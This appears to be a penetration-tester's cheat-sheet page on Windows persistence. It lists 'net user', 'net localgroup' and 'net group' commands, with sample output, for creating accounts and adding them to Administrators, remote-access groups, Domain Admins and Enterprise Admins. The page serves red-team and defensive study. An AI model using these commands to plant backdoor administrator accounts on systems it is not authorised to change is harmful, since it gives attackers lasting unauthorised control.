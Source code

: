 ```yaml
---
title: "Persistence"
date: 2025-7-25
tags: ["AddMember", "Account", "Windows", "Persistence"]
---
```


### Add Local User

```console
# Create new user
net user '<USER>' '<PASSWORD>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test Test1234!@ /add
The command completed successfully.
```

```console
# Add user to admin group
net localgroup Administrators '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup administrators test /add
The command completed successfully.
```

```console
# Add user to remote desktop group
net localgroup "Remote Desktop Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "remote desktop users" test /add
The command completed successfully.
```

```console
# Add user to remote management group
net localgroup "Remote Management Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "Remote Management Users" test /add
The command completed successfully.
```

```console
# Check
net user <USER>
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test
net user test
User name                    test
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/30/2024 7:20:12 AM
Password expires             Never
Password changeable          10/1/2024 7:20:12 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/30/2024 7:24:50 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

### Add Domain User

```console
net user '<USER>' '<PASSWORD>' /add /domain
```

```console
net group 'Domain Admins' '<USER>' /add /domain
```

```console
net group "Enterprise Admins" '<USER>' /add /domain
```